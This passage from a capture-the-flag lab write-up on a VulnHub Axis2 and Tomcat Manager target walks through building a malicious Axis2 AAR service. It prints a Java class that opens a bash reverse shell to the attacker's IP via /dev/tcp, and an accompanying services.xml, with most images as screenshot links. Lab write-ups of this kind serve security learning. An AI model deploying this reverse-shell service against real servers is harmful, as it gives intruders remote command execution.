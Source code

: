 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221805.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221829.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212222015.png)

Now we should be able to use JDK version 1.6 in directory `/etc/jdk1.6.0_01/bin/`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212222041.png)

After installing and extracting JDK version 1.6, we can now deploy our own AAR archive file!

- Create a directory for storing our files:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213438.png)

- Copy and paste the following Java code to a file called `ReverseShell.java`:

```java
public class ReverseShell {
    // generated from https://www.revshells.com/
    public static void revshell(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.174.130/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

> Note: Remember to change your own IP address and netcat listener port.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213601.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213013812.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213013825.png)

- Create a directory called `META-INF`

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213735.png)

- Inside that directory, copy the following XML code to a file called `services.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<service name="ReverseShell" targetNamespace="http://ws.apache.org/ax2">
    <description>Your lovely Axis2 AAR reverse shell</description>
    <messageReceivers>
        <messageReceiver mep="http://www.w3.org/2004/08/wsdl/in-only" class="org.apache.axis2.rpc.receivers.RPCInOnlyMessageReceiver" />
        <messageReceiver  mep="http://www.w3.org/2004/08/wsdl/in-out"  class="org.apache.axis2.rpc.receivers.RPCMessageReceiver"/>
    </messageReceivers>
    <parameter name="ServiceClass">ReverseShell</parameter>
</service>
```
